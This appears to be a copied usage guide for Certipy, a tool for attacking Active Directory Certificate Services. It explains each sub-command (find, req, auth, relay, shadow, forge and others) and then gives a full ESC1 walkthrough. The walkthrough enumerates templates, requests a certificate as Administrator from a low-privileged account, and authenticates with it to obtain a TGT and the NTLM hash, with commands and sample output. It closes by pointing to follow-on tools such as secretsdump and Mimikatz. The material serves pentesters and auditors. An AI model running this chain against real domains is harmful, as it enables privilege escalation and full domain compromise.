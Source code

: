 > Notes copied from the original [Github Certipy](https://github.com/ly4k/Certipy/wiki/05-%E2%80%90-Usage) repository

Certipy is a command-line tool with a modular structure. The basic invocation is:

```shell
certipy [global options] <command> [command options]
```

Running `certipy -h` will show global options and the list of sub-commands. Each sub-command has its own help (e.g. `certipy find -h`). Certipy's workflow typically involves **enumerating AD CS setup**, followed by **executing attacks or other operations**. You will usually provide domain credentials (or use pass-the-hash or Kerberos) for it to perform LDAP queries and RPC calls against the target environment.

> It is extremately recomendable reviewing the [**Certipy Command Reference**](https://github.com/ly4k/Certipy/wiki/08-%E2%80%90-Command-Reference) for a complete list of commands and options. The following sections will cover the most relevant commands for AD CS abuse, including their usage and examples.

Key **Certipy sub-commands** include:

- **`find`** - Enumerate AD CS configuration in the domain. This scans for CAs, Certificate Templates, and related objects, highlighting potential misconfigurations or vulnerable settings. This is often the first step attackers or auditors use, as it provides a detailed report of what templates exist and which ESC vulnerabilities might be present. (See below for examples of `find` output.)
- **`req`** (request) - Request a certificate from a CA. This command allows you to actively attempt enrollment for a given template. You can specify template name, CA name, alternate credentials to use for the request, subject name overrides, etc. It supports requesting via RPC, DCOM, or HTTP(S). Attackers usually use `certipy req` to exploit vulnerable templates by obtaining certs they shouldn't be entitled to (for impersonation).
- **`auth`** - Authenticate using a certificate. This is essentially a **"pass-the-certificate"** operation. Given a PFX (certificate + private key), `certipy auth` will perform a domain authentication (Kerberos PKINIT) and can retrieve a TGT and the NTLM hash using the certificate. In some cases, it may also be preferable to use Schannel authentication to LDAP instead of Kerberos. This is used after an attacker obtains a cert (via `req` or other means) to translate that into actual domain access (Kerberos tickets or LDAP connections as that identity).
- **`relay`** - Perform an NTLM relay attack targeting AD CS HTTP(S) or RPC endpoints (ESC8/ESC11). Certipy can act as an NTLM relay tool: listening for incoming NTLM authentication (from a coerced machine or victim) and then relaying that to the AD CS enrollment interface to get a certificate issued for the victim. This automates the ESC8 attack (and ESC11 for RPC) end-to-end, granting a certificate for the victim's account if successful.
- **`shadow`** - Perform _Shadow Credentials_ attack (certificate-based persistence via Key Credentials). This command can create a certificate-linked credential on a user (in the msDS-KeyCredentialLink attribute). With `certipy shadow`, an attacker with appropriate rights can install a certificate on an object such that they can authenticate as that object via certificate (even if not via typical AD CS pathways).
- **`forge`** - Forge certificates given a compromised CA. If you have a CA's private key (for example, stolen from an offline CA or from backup), this command allows creating arbitrary certificates (e.g., a "Golden Certificate") signed by that CA. You input the CA cert and key (PFX), and specify details for a new certificate (like a UPN, DNS, etc.), and Certipy will output a forged cert. This is extremely powerful for persistence if a root or subordinate CA is compromised.
- **`ca`** - Manage Certificate Authority settings. This can enable or disable templates on a CA, approve or deny pending requests, and add or remove CA certificate managers (officers). It's useful for post-exploitation or during certain attack chains (for example, if you've gained rights to modify CA settings via ESC7, you could use `certipy ca` to enable a vulnerable template or approve your malicious request).
- **`template`** - Manage Certificate Template objects in AD. You can dump a template's configuration to a file, modify it, and write it back. This is helpful for scenarios like ESC4 (where you have rights to edit a template): you could use Certipy to change template settings (e.g., allow SAN or change permissions) and later restore them.
- **`account`** - Manage user/computer account attributes related to certificates. This includes adding or modifying things like SPNs, DNS hostnames, UPNs, or passwords for accounts. It's an advanced command that attackers might use in complex chains (e.g., creating a machine account with a specific name to exploit a certificate mapping). For instance, `certipy account` can create a new computer account if the current user has the right (MachineAccountQuota), setting attributes that might later be used in an attack.

Most Certipy commands accept common connection options (like `-dc-ip`, `-u`/`-p` for credentials, `-hashes` for pass-the-hash, `-k` for Kerberos from ccache, etc.). This allows flexible authentication methods. For example, you can use `-hashes` with a NTLM hash or `-aes` with a Kerberos AES key to authenticate without knowing the cleartext password.

## Usage Example

[](https://github.com/ly4k/Certipy/wiki/05-%E2%80%90-Usage#usage-example)

Let's walk through a typical usage scenario to illustrate how Certipy might be used by an attacker after gaining an initial foothold (as a low-privileged domain user):

1. **Enumerate AD CS** - The attacker runs `certipy find` to discover any vulnerable configurations:
    
    ```shell
    certipy find \
        -u 'attacker@corp.local' -p 'Passw0rd!' \
        -dc-ip '10.0.0.100' -text \
        -enabled -hide-admins
    ```
    

This will query LDAP for Certificate Templates and CA objects. The output (either to console or to a text file) will list all templates, their settings, and flag any misconfigurations. For example, part of the output might show:

```
Certificate Authorities
 0
   CA Name                             : CORP-CA
   DNS Name                            : CA.CORP.LOCAL
   ...
   Web Enrollment
     HTTP
       Enabled                         : False
     HTTPS
       Enabled                         : True
       Channel Binding (EPA)           : False
   ...
   Permissions
     Access Rights
       ManageCa                        : CORP.LOCAL\Authenticated Users
       ManageCertificates              : CORP.LOCAL\Authenticated Users
       Read                            : CORP.LOCAL\Authenticated Users
       Enroll                          : CORP.LOCAL\Authenticated Users
   [+] User Enrollable Principals      : CORP.LOCAL\Authenticated Users
   [+] User ACL Principals             : CORP.LOCAL\Authenticated Users
   [!] Vulnerabilities
     ESC7                              : User has dangerous permissions.
     ESC8                              : Web Enrollment is enabled over HTTPS and Channel Binding is disabled.
Certificate Templates
  0
    Template Name                       : UserTemplate
    Display Name                        : UserTemplate
    Certificate Authorities             : CORP-CA
    Enabled                             : True
    Client Authentication               : True
    ...
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Client Authentication
    ...
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CORP.LOCAL\Domain Users
      Object Control Permissions
        Write Property Enroll           : CORP.LOCAL\Domain Users
    [+] User Enrollable Principals      : CORP.LOCAL\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

- This output shows the CA "CORP-CA" and a template "UserTemplate". The template has **Enrollee Supplies Subject** set to true, and **Client Authentication** is enabled. The permissions show that **Domain Users** can enroll for this template. The Template `[!] Vulnerabilities` section flags it as vulnerable to **ESC1**, while the CA `[!] Vulnerabilities` section shows **ESC7** and **ESC8**. Certipy's find would also list which users/groups have enrollment rights, etc. (The `-hide-admins` flag in the example omits listing default admin permissions to reduce noise.)
    
- **Request a certificate** - Suppose the find output showed **ESC1** on a template that Domain Users can enroll. The attacker can attempt to exploit it:
    
    ```shell
    certipy req \
        -u 'attacker@corp.local' -p 'Passw0rd!' \
        -dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
        -ca 'CORP-CA' -template 'UserTemplate' \
        -upn 'Administrator@corp.local' -sid 'S-1-5-21-...-500'
    ```
    

Here, `-ca 'CORP-CA'` specifies the CA name, and `-target 'CA.CORP.LOCAL'` the CA DNS name. We supply a _UPN_ of the target (Administrator) and the SID of the target. In an ESC1 scenario, this tricks the CA into issuing a certificate for Administrator to the low-priv user. If successful, Certipy will save the certificate and private key to a .pfx file:

```
[*] Requesting certificate via RPC
[*] Request ID is 1
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-...-500'
[*] Wrote certificate and private key to 'administrator.pfx'
```

- _(This matches the ESC1 exploitation example: the attacker "user" obtains a cert for Administrator)._
    
- **Authenticate with the certificate** - Now the attacker has `administrator.pfx`. They use `certipy auth` to leverage it:
    
    ```shell
    certipy auth -pfx 'administrator.pfx' -dc-ip '10.0.0.100'
    ```
    

Certipy will load the PFX, perform PKINIT to get a Kerberos TGT for Administrator, and even attempt to retrieve the NTLM hash:

```
[*] Certificate identities:
    SAN UPN: 'Administrator@corp.local'
    Security Extension SID: 'S-1-5-21-...-500'
[*] Using principal: 'Administrator@corp.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Wrote credential cache to 'Administrator.ccache'
[*] Trying to retrieve NT hash for 'Administrator'
[*] Got hash for 'Administrator@corp.local':
    aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889
```

1. The attacker now possesses full Domain Admin credentials, including both a Kerberos ticket and the hashed password. They can leverage tools such as `psexec.py` or `secretsdump.py` (from Impacket), or use utilities like Mimikatz or Rubeus, to carry out privileged actions using either the TGT or the NTLM hash.
    

This example shows the typical flow: **find** a vuln, **req** a cert, **auth** to get elevated access. Certipy supports many variations and other commands (for different ESC scenarios or defensive tasks), which we will explore in dedicated sections. Use `-h` on each subcommand to see advanced options (for instance, `certipy req` can take `-on-behalf-of` for enrollment agent scenarios, and `certipy find` has filters like `-enabled` or output formats like `-json`, `-csv`).
